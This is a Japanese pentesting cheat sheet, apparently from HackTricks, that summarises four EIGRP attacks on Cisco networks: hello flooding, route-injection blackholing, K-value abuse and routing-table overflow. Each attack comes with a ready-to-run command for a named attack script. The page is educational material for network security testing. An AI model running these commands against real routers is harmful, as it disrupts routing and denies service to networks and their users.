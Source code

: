 # EIGRP攻撃

{{#include ../../banners/hacktricks-training.md}}

**これは** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **で公開された攻撃の概要です。詳細については確認してください。**

## **偽のEIGRP隣接攻撃**

- **目的**: EIGRP helloパケットでルーターのCPUを過負荷にし、サービス拒否（DoS）攻撃につながる可能性があります。
- **ツール**: **helloflooding.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定します。例: `eth0`。
- `--as`: EIGRP自律システム番号を定義します。例: `1`。
- `--subnet`: サブネットの場所を設定します。例: `10.10.100.0/24`。

## **EIGRPブラックホール攻撃**

- **目的**: 偽のルートを注入することでネットワークトラフィックの流れを妨害し、トラフィックが存在しない宛先に向かうブラックホールを作り出します。
- **ツール**: **routeinject.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **パラメータ**:
- `--interface`: 攻撃者のシステムインターフェースを指定します。
- `--as`: EIGRP AS番号を定義します。
- `--src`: 攻撃者のIPアドレスを設定します。
- `--dst`: ターゲットサブネットIPを設定します。
- `--prefix`: ターゲットサブネットIPのマスクを定義します。

## **K値の悪用攻撃**

- **目的**: 変更されたK値を注入することでEIGRPドメイン内での継続的な中断と再接続を引き起こし、実質的にDoS攻撃を引き起こします。
- **ツール**: **relationshipnightmare.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定します。
- `--as`: EIGRP AS番号を定義します。
- `--src`: 正当なルーターのIPアドレスを設定します。

## **ルーティングテーブルオーバーフロー攻撃**

- **目的**: 多数の偽のルートでルーターのCPUとRAMに負荷をかけます。
- **ツール**: **routingtableoverflow.py**スクリプト。
- **実行**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定します。
- `--as`: EIGRP AS番号を定義します。
- `--src`: 攻撃者のIPアドレスを設定します。

{{#include ../../banners/hacktricks-training.md}}
